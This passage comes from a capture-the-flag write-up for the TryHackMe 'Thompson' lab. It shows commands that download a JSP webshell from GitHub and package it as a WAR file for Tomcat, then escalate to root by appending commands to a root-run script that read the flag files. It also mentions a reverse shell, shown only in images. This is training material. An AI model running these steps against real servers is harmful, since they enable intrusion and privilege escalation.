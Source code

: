 ```
#!/bin/bash
id > test.txt
```

Now embed a payload that can read `/root/flag.txt`:

`cd /home/jack && echo "cat /root/flag.txt 2>/dev/null" >> id.sh && ./id.sh`

Converting our webshell to reverse shell will fix the solution:

![[TryHackMe/Thompson/images/22.png]]

### Manual Exploitation 3 (pre-defined webshell through git repo)

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp

go to the path: http://your-ip:8080/backup/cmd.jsp
```

You can reach same result from above.

## Privilege Escalation:

On `/home/jack` directory, there is a file called `test.txt` and `id.sh`. It appends `id` command output through `test.txt`. By appending a command we can escalate our privileges.

- Directly read flag:

```
echo "
#!/bin/bash
cat /root/root.txt > text.txt" > id.sh
```

- Get root privileges:

Append direct `reverse shell`

![[TryHackMe/Thompson/images/25.png]]

![[TryHackMe/Thompson/images/26.png]]


May The Pentest Be With You ! ! !